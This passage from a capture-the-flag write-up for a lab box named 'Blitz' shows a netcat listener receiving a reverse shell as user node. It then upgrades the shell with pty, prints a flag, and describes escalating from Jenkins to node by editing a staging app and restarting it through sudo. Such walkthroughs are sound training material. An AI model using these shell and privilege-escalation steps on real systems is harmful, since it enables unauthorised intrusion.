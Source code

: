And we receive a reverse shell as user node!
```
┌──(kali㉿kali)-[~/Blitz]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.100.132] from (UNKNOWN) [192.168.100.131] 60034
whoami                                                
node
id
uid=1002(node) gid=1002(node) groups=1002(node),100(users),1003(development)
python3 -c "import pty;pty.spawn('/bin/bash')"
node@blitz:/home/git/pipeline/staging$ cat /home/node/user3.txt 
cat /home/node/user3.txt
ICSD{ede5159c9ab5d81b2f66e177599c8b65}
```

### Shortcut from Jenkins to Node without Interacting with The Staging Repository
What jenkins does in build scripts is to simply run commands specified in script/sh section, providing us command execution on the system as jenkins user. We also now that pipeline/staging directory is owned by jenkins, meaning we can change the code (app.js as shown above) directly from the command line. 

![Alt text](Screenshots/git-pipeline-staging.png)

We are also allowed to restart the service. 
```
jenkins@blitz:/home/git/pipeline/staging$ sudo -l
Matching Defaults entries for jenkins on blitz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkins may run the following commands on blitz:
    (root) NOPASSWD: /usr/bin/systemctl restart staging.service
```
